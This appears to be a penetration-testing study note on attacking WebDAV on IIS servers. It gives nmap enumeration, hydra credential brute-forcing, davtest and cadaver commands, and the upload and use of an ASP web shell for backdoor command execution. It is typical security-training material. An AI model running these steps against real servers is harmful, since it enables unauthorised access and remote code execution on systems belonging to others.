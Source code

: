 ### What is WebDAV ?

- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.

- WebDAV essentially enables a web server to function as a file server for collaborative authoring.

- WebDAV runs on top Microsoft IIS on ports 80/443.

- WebDAV is not specifically made for IIS, it can be used with other web servers like Apache. 


### How to exploit WebDAV ?

- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server. 

- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication. 

- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious `.asp`payload that can be used to execute arbitrary commands or obtain a reverse shell on the target. 

- The web server technology in this case is MS IIS, which means that only `.asp` or `.aspx` payloads can be executed. In the context of Linux or Apache, only `.php` payloads can be executed.

### Using `nmap` to further enumerate `http`

```
nmap -sV -p 80 --script=http-enum <target_ip>
```

- This can be used to find out if the webDAV directory exists and if there's any interesting folders.
- To access webDAV directory, we might require authorisation.

### Using `hydra` to bruteforce authentication

```
hydra -L <user-file> -P <pass-file> <target-ip> http-get /webdav/
```

### What is `DAVtest` ?


DAVTest tests WebDAV enabled servers by uploading test executable files to check what file formats are supported.

```
davtest -auth <user>:<pass> -url http://<ip>/webdav
```
*Use `-auth` if webdav directory is password protected.*

### How to use `cadaver`

Cadaver can be used to access the contents of `webdav` directory. It'll allow us to upload, download, edit or delete files from the directory.

```
cadaver http://<ip>/webdav
```

### Uploading a web shell using `cadaver` 

- We can upload a web shell to get a backdoor access to the web server. 

```
put /usr/share/webshells/asp/webshell.asp
```

- Path to webshells - `/usr/share/webshells`

- Now if we head back to the webdav directory which we opened in our browser, we can notice the `webshell.asp` webshell that we uploaded.
- We can then execute the webshell by clicking on it.
- The webshell will provide us with an input box.
- Next, we can input any desired commands for the specific operating system into the designated input box and initiate the execution by clicking "run."